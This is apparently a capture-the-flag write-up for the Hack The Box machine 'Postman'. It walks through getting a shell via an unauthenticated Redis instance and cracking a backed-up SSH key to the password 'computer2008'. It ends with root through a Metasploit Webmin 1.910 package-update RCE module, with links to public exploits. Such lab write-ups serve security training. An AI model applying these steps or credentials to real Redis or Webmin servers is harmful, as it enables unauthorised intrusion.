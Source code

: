 ## Postman | IP: 10.10.10.160

![Machine info card](machine.png)

### Enumeration

##### Services

- 22
	+ OpenSSH 7.6p1 Ubuntu
- 80
	+ Apache httpd 2.4.29 ((Ubuntu))
- 6379 
	+ Redis key-value store 4.0.9
		* **Redis 4.x / 5.x - Unauthenticated Code Execution (Metasploit)**
- 10000
	+ MiniServ 1.910 (Webmin httpd)
		* **Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)**


### Getting shell as redis@ip

**Simply follow - https://book.hacktricks.xyz/pentesting/6379-pentesting-redis**

We can connect to the redis server directly with telnet,

```
root@kali:~# telnet 10.10.10.160 6379                                          
Trying 10.10.10.160...                                                         
Connected to 10.10.10.160.                                                     
Escape character is '^]'.
quit                                                                           
+OK                                                                            
Connection closed by foreign host. 
```

> msf module: https://www.exploit-db.com/exploits/47195

> Custom exploitation: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

### Owning user

*Enumeration is key.*

```
redis@ip:~$ cat /opt/id_rsa.bak
```

Pass it to `ssh2john.py` and then to john, we get `computer2008` as cracked password.

> Note: We aren’t allowed to connect as Matt via SSH. Turns out that there is a `Denyusers Matt` directive in the `/etc/ssh/sshd_config` file, which prohibits Matt from logging in via SSH. 


```
redis@ip:~$ su Matt # Enter password on prompt
```

We get shell as `Matt`,

```
Matt@Postman:~$ cat /home/Matt/user.txt 
[-------------------------]a2f3c
```

### Owning Root

We can login using the same credentials `Matt:computer2008` on the Webmin portal running on port 10000.

> Manual Exploitation: https://github.com/Dog9w23/Webmin-1.910-Exploit/blob/master/Webmin%201.910%20-%20Remote%20Code%20Execution%20using%20BurpSuite

> msf module: https://www.exploit-db.com/exploits/46984


```
msf5> use exploit/linux/http/webmin_packageup_rce
msf5> run # after setting all options
whoami
root
cat /root/root.txt
[-------------------------]ddce
```

### Trophy

![Trophy](trophy.png)